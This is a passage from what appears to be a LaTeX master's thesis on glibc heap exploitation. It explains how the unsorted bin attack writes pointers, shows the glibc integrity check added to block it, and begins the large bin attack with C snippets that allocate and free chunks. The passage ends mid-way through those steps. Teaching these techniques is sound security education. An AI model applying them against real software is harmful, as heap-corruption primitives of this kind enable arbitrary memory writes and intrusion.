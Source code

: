 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\ub{unsorted bins}
\newcommand*\lb{large bins}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
victim = unsorted_chunks (av) -> bk = p
bck = victim->bk = p->bk = target addr-16
unsorted_chunks(av)->bk = bck = target addr-16
bck->fd = *(target addr -16+16) = unsorted_chunks(av);
\end{lstlisting}

Now it is clear that if we control the backward pointer, then, we can write data to any address, however, we do not have control over data. In this case, the linked list header was written on a stack variable. In the recent versions of \libc{} the following check was added to prevent this attack:

\begin{lstlisting}[language=c,frame=tlrb]
if (\_\_glibc_unlikely (bck->fd != victim))
	malloc\_printerr ('malloc(): corrupted unsorted chunks 3');
\end{lstlisting}

\section{\lb{} Attack}

As the name suggests, this attack is about the \lb{}. The goal is to force a \lb{} to write data in a controlled location.

\begin{lstlisting}[language=c,frame=tlrb]
size_t target = 0;
size_t *p1 = malloc(0x428);
size_t *g1 = malloc(0x18);
size_t *p2 = malloc(0x418);
size_t *g2 = malloc(0x18);
\end{lstlisting}

The first step is to define the target, also, we need to define two chunks in the range size of \lb{}, moreover, we need to define two chunks between them to prevent them from merging or the top chunk. 

\begin{lstlisting}[language=c,frame=tlrb]
free(p1);
size_t *g3 = malloc(0x438);
\end{lstlisting}

In the second step, we free the biggest chunk, however, the freed chunk is not in the \lb{} yet. As we discussed, the freed chunk was added to \ub{} at first, so, The best way to move it into the \lb{} is to allocate a new bigger chunk. In this way, the heap manager checks the chunk inside the \ub{}, then adds them into the corresponding bins (Like other attacks).

\begin{lstlisting}[language=c,frame=tlrb]
free(p2);
\end{lstlisting}
\end{document}
